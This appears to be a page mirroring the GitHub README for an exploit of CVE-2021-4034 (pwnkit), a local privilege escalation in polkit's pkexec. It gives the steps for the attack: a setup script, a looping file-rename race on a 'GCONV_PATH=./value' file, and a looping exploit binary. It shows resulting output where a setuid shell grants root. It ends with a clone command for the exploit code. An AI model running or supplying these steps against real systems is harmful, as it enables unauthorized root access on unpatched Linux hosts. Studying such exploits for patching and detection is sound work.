 # CVE-2021-4034

Exploit for CVE-2021-4034

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Ayrx](https://github.com/Ayrx) |
| Url      | [https://github.com/Ayrx/CVE-2021-4034](https://github.com/Ayrx/CVE-2021-4034)                                               |
| Stars    | 97                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-4034

Exploit for the [pwnkit vulnerability](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
from the Qualys team.

This exploit assumes that `gcc` is present on the target machine.

```
$ id
uid=1001(ayrx) gid=1002(ayrx) groups=1002(ayrx),27(sudo)
$ ./setup.sh
```

Run the following command in one bash session:
```
while :; do mv "GCONV_PATH=./value" "GCONV_PATH=./value.bak"; mv "GCONV_PATH=./value.bak" "GCONV_PATH=./value"; done
```

Run the following command in another bash session:

```
while :; do ./exploit; done
```

You will eventually win the race and obtain a `shell` binary that gives you
root access:

```
$ ls -lah shell
-rwsrwxrwx 1 root ayrx 16K Jan 26 08:57 shell
$ ./shell
# id
uid=0(root) gid=1002(ayrx) groups=1002(ayrx),27(sudo)
```

A short write up on the technique can be found on my [blog](https://www.ayrx.me/pwnkit-no-logs/).



## Get the content

```
git clone https://github.com/Ayrx/CVE-2021-4034
cd CVE-2021-4034
```

{% embed url="https://github.com/Ayrx/CVE-2021-4034" %}

<figure><img src="https://avatars.githubusercontent.com/u/1937160?v=4" alt=""><figcaption><p>Ayrx</p></figcaption></figure>
